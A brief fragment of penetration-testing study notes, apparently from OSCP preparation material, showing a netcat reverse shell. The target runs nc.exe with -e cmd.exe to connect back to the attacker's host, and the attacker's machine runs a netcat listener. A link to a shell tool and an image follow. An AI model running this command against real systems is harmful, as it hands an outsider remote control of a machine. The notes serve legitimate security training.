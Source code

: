 **In the targeted machine**

```
nc.exe $kaliIP $kaliPort -e cmd.exe
```

**In the pentester's machine**

```
nc -lvp port
```

https://github.com/xct/xc

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/3f613319-abb4-4c12-bb5c-55337bdefec6)
